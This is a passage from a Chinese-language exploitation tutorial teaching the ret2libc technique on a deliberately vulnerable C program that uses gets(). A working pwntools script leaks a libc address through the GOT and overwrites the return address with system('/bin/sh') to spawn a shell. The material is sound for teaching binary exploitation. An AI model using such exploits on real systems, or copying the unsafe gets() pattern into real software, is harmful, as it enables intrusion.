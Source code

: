 上图是puts在动态链接库中的位置，而动态链接库加载到内存是会给其一个加载基地址，这个地址是不固定的，函数的实际地址就等于这个加载基地址+在动态链接库中的相对偏移量。同理可以得到libc的加载基地址等于函数的实际地址-函数在动态链接库中的相对偏移量。当我们执行过一次库函数后，got表中就会保留该函数的实际地址，如果我们可以泄露出其内容即实际地址，再知道函数的相对偏移量我们就可以算出动态链接库的加载基地址。最后找到system和 `/bin/sh` 字符串在动态链接库中的偏移量就可以计算出其实际地址，再次溢出覆盖函数返回地址为system实际地址和 给其`/bin/sh` 字符串作为参数，即可获取shell。以一个例题来讲

```c
#include<stdio.h>
void run() {
    char buf[0x10];
    puts("hello\n");
    gets(buf);
}

int main() {
    run();
    return 0;
}
// gcc ret2libc3.c -o ret2libc3 -fno-stack-protector -no-pie -fno-pic
```

puts函数它接收一个指针，然后就会打印出指针指向的内容，那如果我们直接覆盖函数返回地址为puts函数并给其参数为got表，那么它就会把got表的内容给打印出来，从而获取到库函数实际地址。同时为了保证可以打印后可以实现二次溢出，所以这里应该使用puts的plt表来覆盖函数返回地址，并给puts函数返回地址为run函数地址，这样puts执行完后就会在一次执行run函数，再一次溢出。第一次溢出的栈结构为

![ad46bef40bbe5fed6a34f6e14b521f9d](images/ad46bef40bbe5fed6a34f6e14b521f9d.png)  

第二次溢出已经计算出了system地址和 `/bin/sh` 地址就可以直接按照ret2lib1的形式来获取shell了。最终Exploit为

```python
from pwn import*
context.log_level = 'debug'
o = process("./ret2libc3")
puts_plt = 0x8048310
run = 0x804843B
gets_got = 0x804A00C

# leak addr
payload = b'a'*28
payload += p32(puts_plt) + p32(run) + p32(gets_got)    # 打印gets函数的实际地址
o.recv()
o.sendline(payload)
gets_addr = u32(o.recv(4))    # 获得gets函数的实际地址，u32是为了将小端序转换为正常的顺序
log.info("gets addr: "+hex(gets_addr))
gets_offset = 0x5F3F0    # gets函数在链接库中的相对偏移量
libc_base = gets_addr - gets_offset    # 计算libc加载基地址
log.info("libc base: "+hex(libc_base))
system_addr = libc_base + 0x3ADB0    # 计算system实际地址
bin_sh = libc_base + 0x15BB2B    # 计算 '/bin/sh' 实际地址

# getshell
payload = b'a'*28
payload += p32(system_addr) + p32(0x11111111) + p32(bin_sh)
o.sendline(payload)

o.interactive()

```
